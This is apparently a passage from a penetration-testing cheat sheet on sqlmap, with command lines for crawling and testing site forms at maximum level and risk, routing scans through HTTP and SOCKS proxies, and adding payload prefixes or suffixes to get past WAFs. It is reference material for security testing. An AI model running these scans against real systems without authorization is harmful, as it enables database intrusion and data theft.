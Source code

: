 ```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3
```

* `--batch` = Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
* `--crawl` = How deep you want to crawl a site
* `--forms` = Parse and test forms


## Proxy Configuration For SQLmap

To run SQLmap with a proxy, you can use the `--proxy` option followed by the proxy URL. SQLmap supports various types of proxies such as HTTP, HTTPS, SOCKS4, and SOCKS5.

```powershell
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
sqlmap -u "http://www.target.com/page.php?id=1" --proxy="http://127.0.0.1:8080" --proxy-cred="user:pass"
```

* HTTP Proxy:
    ```ps1
    --proxy="http://[username]:[password]@[proxy_ip]:[proxy_port]"
    --proxy="http://user:pass@127.0.0.1:8080"
    ```
* SOCKS Proxy:
    ```ps1
    --proxy="socks4://[username]:[password]@[proxy_ip]:[proxy_port]"
    --proxy="socks4://user:pass@127.0.0.1:1080"
    ```

* SOCKS5 Proxy:
    ```ps1
    --proxy="socks5://[username]:[password]@[proxy_ip]:[proxy_port]"
    --proxy="socks5://user:pass@127.0.0.1:1080"
    ```


## Injection Tampering

In SQLmap, tampering can help you adjust the injection in specific ways required to bypass web application firewalls (WAFs) or custom sanitization mechanisms. SQLmap provides various options and techniques to tamper with the payloads being used for SQL injection.

### Suffix And Prefix

```powershell
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

* `--suffix=SUFFIX`: Injection payload suffix string
* `--prefix=PREFIX`: Injection payload prefix string

